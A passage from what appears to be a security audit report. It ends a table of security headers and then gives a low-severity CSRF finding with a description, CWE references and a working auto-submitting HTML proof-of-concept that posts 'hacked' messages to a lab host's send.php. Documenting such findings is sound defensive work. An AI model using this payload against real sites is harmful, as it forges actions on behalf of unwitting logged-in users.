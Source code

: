 | `X-Frame-Options` | Protects against clickjacking by preventing the site from being embedded in iframes. |
| `X-Permitted-Cross-Domain-Policies` | Restricts Adobe Flash and Acrobat from loading data from the domain. |

###### References:
[https://cwe.mitre.org/data/definitions/693.html](https://cwe.mitre.org/data/definitions/693.html)


-------------


##### 11. [CSRF] Cross-site request forgery
###### Severity:
Low
###### Description:
A cross-site request forgery is an attack that involves forcing a victim to send an HTTP request to a target destination without their knowledge or intent in order to perform an action as the victim. The underlying cause is application functionality using predictable URL/form actions in a repeatable way. The nature of the attack is that CSRF exploits the trust that a web site has for a user. By contrast, cross-site scripting (XSS) [9] exploits the trust that a user has for a web site. Like XSS, CSRF attacks are not necessarily cross-site, but they can be. Cross-site request forgery is also known as CSRF, XSRF, one-click attack, session riding, confused deputy, and sea surf.
###### PoC:
All forms within the application do not use `CSRF` random tokens. As a result, a victim can be tricked into clicking 

Below an example of a `POC` for inducing to create a post from a logged in user.

```
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8" />
  <title>CSRF PoC for send.php</title>
</head>
<body>
  <h1>CSRF PoC for send.php</h1>
  <form id="csrfForm" action="http://172.17.0.2/send.php" method="POST" style="display:none;">
    <input type="hidden" name="agent" value="" />
    <input type="hidden" name="title" value="hacked" />
    <input type="hidden" name="message" value="hacked" />
  </form>
  <script>
    document.getElementById('csrfForm').submit();
  </script>
</body>
</html>
```
###### References:
[http://cwe.mitre.org/data/definitions/352.html](http://cwe.mitre.org/data/definitions/352.html)


-------------
